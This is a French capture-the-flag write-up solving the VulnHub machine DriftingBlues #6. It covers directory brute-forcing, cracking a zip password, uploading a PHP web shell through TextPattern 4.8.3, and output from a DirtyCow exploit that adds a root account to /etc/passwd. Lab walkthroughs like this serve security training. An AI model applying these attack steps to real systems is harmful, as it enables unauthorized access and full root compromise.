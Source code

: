 # Solution du CTF DriftingBlues #6 de VulnHub

Quick
-----

Petite présentation tout de même avant d’enchaîner en vitesse grand V. [Ce CTF](https://www.vulnhub.com/entry/driftingblues-6,672/) créé par [tasiyanci](https://twitter.com/tasiyanci) est un boot2root récupérable par VulnHub et de difficulté facile.  

La VM fait tourner un site qui nous accueille avec le message suivant :  

```plain
Drifting Blues Tech
please don't hack
enough is enough!!!
```

Amusant vu qu'on est sur le 6ème opus de cette saga de CTF. Oui quelque part on s'acharne :D   

Je lance Wapiti dessus avec tous les modules dispos. Le buster intégré me remonte pas mal de choses intéressantes :  

```plain
[*] Lancement du module buster 
Found webpage http://192.168.56.11/index.html 
Found webpage http://192.168.56.11/robots.txt 
Found webpage http://192.168.56.11/db 
Found webpage http://192.168.56.11/index 
Found webpage http://192.168.56.11/robots 
Found webpage http://192.168.56.11/textpattern/ 
Found webpage http://192.168.56.11/textpattern/LICENSE.txt 
Found webpage http://192.168.56.11/textpattern/index.php 
Found webpage http://192.168.56.11/textpattern/css.php 
Found webpage http://192.168.56.11/textpattern/README.txt 
Found webpage http://192.168.56.11/textpattern/images/ 
Found webpage http://192.168.56.11/textpattern/themes/ 
Found webpage http://192.168.56.11/textpattern/files/ 
Found webpage http://192.168.56.11/textpattern/README 
Found webpage http://192.168.56.11/textpattern/textpattern/ 
Found webpage http://192.168.56.11/textpattern/rpc/ 
Found webpage http://192.168.56.11/textpattern/LICENSE
```

TextPattern est un CMS et le README nous indique qu'il est ici en version 4.8.3. Ça tombe bien il y a sur exploit-db des exploits [comme celui ci](https://www.exploit-db.com/exploits/48943) pour cette version du logiciel.  

L'exploitation nécessite toutefois un compte que l'on a pas. Heureusement on trouve une piste dans le fichier *robots.txt* :  

```plain
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

Je m'exécute :  

```plain
feroxbuster -u http://192.168.56.11/ -w /fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -n -x php,txt,zip,html
```

Il en ressort une archive spammer.zip protégée par mot de passe. Je génère le hash correspondant avec *zip2john* et *John the Ripper* casse ce dernier instantanément :  

```plain
myspace4         (spammer.zip/creds.txt)
```

Le fichier *creds.txt* obtenu contient des identifiants : *mayer:lionheart*.  

Sans surprise ils permettent de se connecter sur l'appli web. Maintenant parlons de l'exploit pour TextPattern. En le lisant on comprend qu'il ne fait rien de plus qu'utiliser la fonctionnalité d'upload qui ne vérifie pas le type de fichier.  

Pas besoin d'exploit donc, on va sur *Content* puis *Files*. Ensuite on sélectionne le fichier, on upload et voilà un shell bêtement à l'adresse */textpattern/files/shell.php*.  

Une fois un shell plus civilisé obtenu (merci *ReverseSSH*) je fouille sur le système et constate surtout qu'il n'y a pas d'utilisateurs classiques (disposant d'un dossier dans */home*). De plus LinPEAS se montre assez silencieux si ce n'est pour les exploits touchant la distribution.  

C'est de toute évidence le cheminement attendu car si un utilisateur avait été présent nous aurions pu passer outre en utilisant directement un exploit pour le kernel.  

Plus qu'à prendre un des exploits pour [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) :  

```plain
www-data@driftingblues:/tmp$ ./dirty g0tr00t 
/etc/passwd successfully backed up to /tmp/passwd.bak 
Please enter the new password: g0tr00t 
Complete line: 
firefart:fihv2UhZG2gL6:0:0:pwned:/root:/bin/bash 

mmap: 7f91e30e8000 
madvise 0 

ptrace 0 
Done! Check /etc/passwd to see if the new user was created. 
You can log in with the username 'firefart' and the password 'g0tr00t'. 

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd 
Done! Check /etc/passwd to see if the new user was created. 
You can log in with the username 'firefart' and the password 'g0tr00t'. 

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
firefart@driftingblues:/tmp# cd /root/ 
firefart@driftingblues:~# ls 
flag.txt 
firefart@driftingblues:~# cat flag.txt  

░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!

```


*Published January 20 2022 at 22 38*